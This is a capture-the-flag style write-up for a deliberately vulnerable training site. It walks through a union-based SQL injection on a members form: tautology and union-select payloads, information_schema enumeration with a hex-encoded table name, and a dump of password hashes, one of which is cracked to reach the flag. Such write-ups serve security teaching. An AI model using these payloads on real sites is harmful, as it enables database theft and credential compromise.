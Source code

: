 # Member SQL injection

* Go to `members` category
* Test form for sql injection and see that all users are returned
```
1 or 1=1 -- always true
```
* In the form submit the following which will retrieve database table names:
```
null union select null,table_name from information_schema.tables
```
* Retrieve table `users` (we use the hex value `0x7573657273` since we can't
 use a string) columns
```
null union select null,column_name from information_schema.columns where
 table_name=0x7573657273
```
* Read `users` table
```
null union select Commentaire,countersign from users 
```
* See output
```
Commentaire: ????? ????????????? ?????????
countersign : e083b24a01c483437bcf4a9eea7c1b4d

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and
 it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
``` 
* Go to https://md5hashing.net/hash/md5/5ff9d0165b4f92b14994e5c685cdce28
* MD5 `5ff9d0165b4f92b14994e5c685cdce28` <-> `FortyTwo`
* `fortytwo` <-> SHA256
 `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
 
## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
